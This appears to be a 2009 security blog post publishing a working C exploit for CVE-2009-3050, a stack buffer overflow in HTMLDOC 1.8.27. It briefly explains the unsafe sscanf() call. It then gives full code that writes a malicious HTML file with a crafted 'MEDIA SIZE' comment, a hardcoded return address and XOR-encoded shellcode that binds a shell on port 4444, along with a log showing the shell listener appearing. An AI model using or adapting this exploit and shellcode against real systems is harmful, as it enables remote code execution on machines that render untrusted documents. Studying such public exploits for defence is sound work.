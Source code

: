 ```yaml
---
author: pank4j
comments: true
date: 2009-08-20 00:34:14+00:00
layout: post
slug: htmldoc-html-file-handling-remote-stack-buffer-overflow-exploit-linux
title: HTMLDOC 'html' File Handling Remote Stack Buffer Overflow Exploit (Linux)
description: HTMLDOC 'html' File Handling Remote Stack Buffer Overflow Exploit (Linux)
wordpress_id: 49
categories:
- Archive
tags:
- CVE-2009-3050
- exploits
---
```


The vulnerability exists in HTMLDOC version 1.8.27 and earlier due to an unsafe call to `sscanf()` in the `set_page_size()` function in `htmldoc/util.cxx`. This can be exploited to cause a stack-based buffer overflow when an HTML document containing e.g. a specially crafted "MEDIA SIZE" comment is being processed.

{% highlight c %}
/*
 
HTMLDOC 'html' File Handling Remote Stack Buffer Overflow Exploit (Linux)
Reference: http://www.securityfocus.com/bid/35727
 
Tested on HTMLDOC 1.8.27 on Debian 5.0 (+ASLR)
Credit: ANTHRAX666 for finding the vulnerability
 
Coded by Pankaj Kohli
 
http://www.codepwn.com
 
pankaj@zion:~/test/htmldoc$ cat /proc/sys/kernel/randomize_va_space
2
pankaj@zion:~/test/htmldoc$ gcc htmldocb0f.c -o htmldocb0f
pankaj@zion:~/test/htmldoc$ ./htmldocb0f
 
[*] Creating buffer
[*] Exploit file written to sploit.html
Run as: htmldoc -f somefile.pdf sploit.html
 
pankaj@zion:~/test/htmldoc$ netstat -an --inet | grep 4444
pankaj@zion:~/test/htmldoc$ ./htmldoc-1.8.27/htmldoc/htmldoc -f abc.pdf sploit.html &
[1] 3287
pankaj@zion:~/test/htmldoc$ netstat -an --inet | grep 4444
tcp 0 0 0.0.0.0:4444 0.0.0.0:* LISTEN
 
*/
 
#include <stdio.h>
#include <string.h>
 
/* Port binding (xor encoded) shellcode (port 4444) */
char code[] =
"\xeb\x12\x5b\x31\xc9\xb1\x75\x8a\x03\x34"
"\x1e\x88\x03\x43\x66\x49\x75\xf5\xeb\x05"
"\xe8\xe9\xff\xff\xff\x74\x78\x46\x74\x1f"
"\x45\x2f\xd7\x4f\x74\x1f\x74\x1c\x97\xff"
"\xd3\x9e\x97\xd8\x2f\xcc\x4c\x78\x76\x0f"
"\x42\x78\x76\x1c\x1e\x97\xff\x74\x0e\x4f"
"\x4e\x97\xff\xad\x1c\x74\x78\x46\xd3\x9e"
"\xae\x78\xad\x1a\xd3\x9e\x4c\x48\x97\xff"
"\x5d\x74\x78\x46\xd3\x9e\x97\xdd\x74\x1c"
"\x47\x74\x21\x46\xd3\x9e\xfc\xe7\x74\x21"
"\x46\xd3\x9e\x2f\xcc\x4c\x76\x70\x31\x6d"
"\x76\x76\x31\x31\x7c\x77\x97\xfd\x4c\x78"
"\x76\x33\x77\x97\xff\x4c\x4f\x4d\x97\xff"
"\x74\x15\x46\xd3\x9e\x74\x1f\x46\x2f\xc5"
"\xd3\x9e";
 
long jmp = 0x0804d938; // push esp; ret 0x0807;
 
int main(int argc, char **argv, char **envp) {
    char buff[512];
    int i;
    FILE *fd;
 
    printf("\n[*] Creating buffer\n");
    strcpy(buff, "<!-- MEDIA SIZE 1x1");
    for(i=0; i<275; i++) {
        buff[19+i] = 'A';
    }
 
    buff[294] = jmp & 0x000000ff;
    buff[295] = (jmp & 0x0000ff00) >> 8;
    buff[296] = (jmp & 0x00ff0000) >> 16;
    buff[297] = (jmp & 0xff000000) >> 24;
    buff[298] = 0;
 
    strcat(buff, code);
 
    fd = fopen("sploit.html", "wb");
    fprintf(fd, "%s", buff);
    fclose(fd);
    printf("[*] Exploit file written to sploit.html\n");
    printf("Run as: htmldoc -f somefile.pdf sploit.html\n\n");
 
    return 0;
}
{% endhighlight %}


